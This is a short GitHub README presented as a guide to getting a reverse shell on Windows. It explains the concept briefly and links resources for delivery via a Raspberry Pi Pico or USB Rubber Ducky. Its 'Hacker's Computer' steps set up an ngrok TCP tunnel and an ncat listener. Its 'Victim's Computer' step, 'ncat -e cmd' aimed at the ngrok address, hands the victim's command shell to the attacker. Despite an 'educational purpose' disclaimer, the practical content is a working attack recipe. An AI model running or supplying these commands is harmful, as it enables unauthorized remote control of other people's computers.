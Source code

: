 # Reverse-Shell
This is a guide on how to perform a reverse shell on Windows.

> ⚠ This repository is ONLY for educational purpose

❓ **How Reverse Shell Works**
- In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target      system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s    computer listens for incoming connections on a specified port.

> ⚠ ATTENTION ⚠

- This repository does NOT explain how to set a [Raspberry Pi Pico](https://www.amazon.it/IBest-Pico-Microcontroller-Board-Pre-Soldered/dp/B0922F9VYT/ref=sr_1_1_sspa?__mk_it_IT=%C3%85M%C3%85%C5%BD%C3%95%C3%91&crid=23WS773UDH0WZ&keywords=rasberry%2Bpi%2Bpico&qid=1664023352&qu=eyJxc2MiOiIzLjcyIiwicXNhIjoiMy4yMiIsInFzcCI6IjIuNjEifQ%3D%3D&sprefix=rasberry%2Bpi%2Bpico%2Caps%2C105&sr=8-1-spons&spLa=ZW5jcnlwdGVkUXVhbGlmaWVyPUExMjdRSFlKUEc3TDk0JmVuY3J5cHRlZElkPUEwOTgzNzkzM05VN0s2QTFDV05VVyZlbmNyeXB0ZWRBZElkPUEwOTE1NjQ1MkQ3UFIwM01QU1VHSyZ3aWRnZXROYW1lPXNwX2F0ZiZhY3Rpb249Y2xpY2tSZWRpcmVjdCZkb05vdExvZ0NsaWNrPXRydWU&th=1, "Buy a Raspberry Pi Pico") or a [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky, "Buy a USB Rubber Ducky").

  - For set a raspberry pi pico or a USB Rubber Ducky: 
    - https://www.youtube.com/watch?v=e_f9p-_JWZw&t=949s&ab_channel=NetworkChuck
    - https://github.com/dbisu/pico-ducky

🧰 **Hacker's Computer**
 1. Download [Ngrok](https://ngrok.com/)
 2. Run ngrok on port `9999` 
    - ngrok tcp 9999
 3. Create a listener with [ncat](https://nmap.org/download.html) on another cmd
    - ncat -lvnp 9999
 
 🎯 **Victim's Computer**
 1. ncat -e cmd \<ngrok IP> \<ngrok PORT>
